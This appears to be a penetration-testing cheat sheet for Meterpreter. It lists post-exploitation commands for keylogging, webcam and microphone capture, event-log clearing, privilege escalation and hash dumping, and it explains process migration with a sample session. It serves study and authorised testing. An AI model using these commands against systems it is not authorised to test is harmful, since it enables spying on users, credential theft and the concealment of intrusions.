 ## Top Commands
**Meterpreter Commands**
```Terminal
sessions -u NUMBER     ---> Turn Shell into Meterpreter session

run          ---> Executes a Meterpreter script or Post module
sessions     ---> Quickly switch to another session 
migrate      ---> Allows you to migrate Meterpreter to another process
background   ---> Backgrounds the current session
exit         ---> Terminate the Meterpreter session

help         ---> Displays the help menu
info         ---> Displays information about a Post module
irb          ---> Opens an interactive Ruby shell on the current session
load         ---> Loads one or more Meterpreter extensions

#Networking commands

arp          ---> Displays the host ARP (Address Resolution Protocol) cache
ifconfig     ---> Displays network interfaces available on the target system  

netstat      ---> Displays the network connections
portfwd      ---> Forwards a local port to a remote service
route        ---> Allows you to view and modify the routing table
resolve X_Y  ---> Check DNS of local network to find a host IP

#System commands

clearev      ---> Clears the event logs
execute      ---> Executes a command
getpid       ---> Shows the current process identifier
getuid       ---> Shows the user that Meterpreter is running as
kill         ---> Terminates a process
pkill        ---> Terminates processes by name
ps           ---> Lists running processes
reboot       ---> Reboots the remote computer
shell        ---> Drops into a system command shell
shutdown     ---> Shuts down the remote computer
sysinfo      ---> Gets information about the remote system, such as OS

#Others Commands (Listed under different menu categories in the help section)

idletime      ---> Returns the number of seconds the remote user has been idle
keyscan_dump  ---> Dumps the keystroke buffer
keyscan_start ---> Starts capturing keystrokes
keyscan_stop  ---> Stops capturing keystrokes
screenshare   ---> Allows you to watch the remote user's desktop in real time
screenshot    ---> Grabs a screenshot of the interactive desktop
record_mic    ---> Records audio from the default microphone for X seconds
webcam_chat   ---> Starts a video chat
webcam_list   ---> Lists webcams
webcam_snap   ---> Takes a snapshot from the specified webcam
webcam_stream ---> Plays a video stream from the specified webcam
getsystem     ---> Attempts to elevate your privilege to that of local system
hashdump      ---> Dumps the contents of the SAM database
```

- Meterpreter Migration Shell

	Migrating to another process will help Meterpreter interact with it. For example, if you see a word processor running on the target (e.g. word.exe, notepad.exe, etc.), you can migrate to it and start capturing keystrokes sent by the user to this process. Some Meterpreter versions will offer you the `keyscan_start`, `keyscan_stop`, and `keyscan_dump` command options to make Meterpreter act like a keylogger. Migrating to another process may also help you to have a more stable Meterpreter session. If you migrate in process id of browser, it might even be possible to inject elements in the web page.

	To migrate the session, you can use the `migrate` command and specify the PID of the target process. For example, if you wanted to migrate the session to the process with PID 1234, you would use the following command:

	The migrate command
	```shell-session
	- meterpreter > migrate 1234
	[*] Migrating from 1304 to 1234...
	[*] Migration completed successfully.
	meterpreter >
	```

	When you migrate the session to a different process, the payload is injected into the target process and begins executing within its context. This means that the payload is now running within the same process as the target process, and has the same privileges and access to resources as the target process. We can think about this has both PID that fuse together!

	Be careful; you may lose your user privileges if you migrate from a higher privileged (e.g. SYSTEM) user to a process started by a lower privileged user (e.g. webserver). You may not be able to gain them back.